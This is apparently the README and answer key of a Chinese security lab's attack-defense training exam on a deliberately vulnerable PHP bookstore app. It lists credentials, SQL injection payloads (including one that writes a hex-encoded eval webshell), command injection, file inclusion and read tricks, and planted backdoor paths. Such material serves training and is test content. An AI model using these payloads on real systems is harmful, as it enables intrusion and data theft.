 # Yunxi_AWD_exam
2023/12/24 Yunxi AWD Exam

2023年12月24日 云曦网络空间安全研究室awd考核题目

awd平台使用github开源平台，代码自行修改启动题目

本题目基于2023年国赛西南赛区半决赛book改编

wp：

后台密码：mama123  30e32fcd467fcb2e9910636b99b49a4d171be7f3

数据库密码：root

注意sql注入可直接利用sqlmap --os-shell，导出文件权限默认开启，数据库端口默认开启

sql注入1：http://192.168.153.128:8801/book.php?bookisbn=1

sql注入2：http://192.168.153.128:8801/admin_edit.php?bookisbn=1

```
http://192.168.153.128:8802/book.php?bookisbn=1' union select 1,2,3,4,load_file("/flag"),6,7,8%23
```

```
http://192.168.153.128:8802/book.php?bookisbn=1' 'union select 1,0x3c3f70687020406576616c28245f504f53545b627468636c735d293b3f3e,3,4,5,6,7,8 into outfile '/tmp/sql.php'%23
```

命令执行：http://192.168.153.128:8801/functions/database_functions.php?target=127.0.0.1|cat /flag

任意文件上传：http://192.168.153.128:8801/admin_add.php

任意文件包含：http://192.168.153.128:8801/index.php?file=

任意文件读取：http://192.168.153.128:8801/?file=php://filter/read=convert.base64-encode/resource=/flag

默认后门：http://192.168.153.128:8801/bootstrap/test/bypass_disablefunc.php?cmd=cat%20/flag&outpath=/tmp/xx&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so

图片马后门：http://192.168.153.128:8801/bootstrap/img/2.jpg

加密后门D盾有时查不出来，需自行排查

加密后门：http://192.168.153.128:8801/obs.php

隐藏后门：http://192.168.153.128:8801/.a.php
